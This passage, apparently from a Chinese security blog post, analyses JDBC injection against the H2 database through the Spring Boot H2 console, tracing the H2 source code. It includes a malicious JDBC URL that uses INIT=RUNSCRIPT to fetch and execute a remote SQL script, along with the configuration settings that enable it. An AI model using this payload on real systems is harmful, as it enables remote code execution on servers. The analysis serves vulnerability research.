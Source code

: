 其实 jdbc 可控**后续导致的二次利用方案相当复杂**，由于这不是这篇文章的内容，所以我们直接跳到对应的位置来看看。

想要利用 jdbc 注入来调用 H2 进行进一步利用，其中有两个比较大的问题。

-   **需要相应的配置参数才能命令执行**
-   **由于不支持多行语句，需要找到能在单行里执行命令的方法**

**H2 的攻击利用的是 Spring Boot H2 console 的一个特性**，通过控制 h2 数据库的连接 url，我们可以迫使 spring boot 去**加载远程的 sql 脚本并执行命令**，类似下面这样的请求

```python
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

而这样的请求需要**如下的参数**

```python
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

我们简单的看下源码

在`org.h2.engine.Engine#openSession`中，发起连接是可以**通过 INIT 关键字来影响初始化数据库连接的配置**

[![img](assets/1701072800-e402458d99c41263b49cafda0bcd2ddb.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747556.png)

[![img](assets/1701072800-612835714bc09763c74374fea97ab71b.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747988.png)

**当我们使用 RUNSCRIPT 关键字发起远程连接时**，代码将会执行到`org.h2.command.dml.RunScriptCommand#execute`
